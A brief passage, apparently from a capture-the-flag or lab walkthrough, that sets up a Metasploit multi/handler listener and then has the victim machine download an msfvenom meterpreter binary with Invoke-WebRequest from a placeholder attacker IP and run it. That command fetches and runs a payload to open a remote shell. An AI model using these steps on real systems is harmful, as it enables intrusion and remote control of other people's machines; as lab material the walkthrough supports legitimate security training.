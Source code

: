 Now set up a listener using the metasploit module `/exploit/multi/handler`

set the `LHOST` `LPORT` and `payload` to match our msfvenom shell.

![](/images/rm-multihan.png)

Now back on the victim machine, move into the `C:\Windows\Temp` directory and use the `Invoke-WebRequest "http://<IP>/shell.exe" -Outfile shell.exe` command to download the meterpreter binary and execute it.

![](/images/rm-shell-dl.png)

Go back to your listener and you should have a meterpreter shell running.

![](/images/rm-met.png)
